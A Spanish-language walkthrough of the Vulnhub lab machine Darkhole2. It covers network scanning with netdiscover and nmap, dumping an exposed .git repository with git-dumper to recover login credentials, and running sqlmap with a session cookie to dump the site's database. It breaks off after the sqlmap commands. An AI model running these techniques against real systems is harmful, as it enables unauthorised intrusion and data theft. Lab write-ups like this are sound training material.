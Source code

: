 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema se pondra a prueba en VirtualBox

![descripcion](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/descripcion.jpg)

## Escaneo de Red
En primer lugar, tenemos que obtener la dirección IP del objetivo

![uso del netdiscover](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/netdiscover.jpg)

~~~
netdiscover
~~~

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

~~~
nmap -A 192.168.40.133
~~~

![uso del nmap](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/nmap.jpg)

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22.
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git.

## Enumerar el servidor web
Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

![visualizacion de laweb](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/web.jpg)

Decidimos echar un vistazo a la página de inicio de sesión.

![vista login](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/login.jpg)

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.
![vista repositorio git](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git.jpg)

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

![vista gitclone](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitclone.jpg)
~~~
cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup
~~~

Después de descargar la herramienta, intentamos ejecutarla con python .

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitdumpe%20python.jpg)
~~~
python3 git_dumper.py http://192.168.40.133/.git/ backup
~~~

Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para continuar.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git%20log.jpg)
~~~
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10
~~~

Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

~~~
Email: lush@admin.com
Password: 321
![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/d28db4ad-c176-4b11-8b0f-98003ef027b2)
~~~

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" --dbs –batch   //vemos las bases de datos

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" -D darkhole_2 --dump-all --batch
date: "14/07/2023"
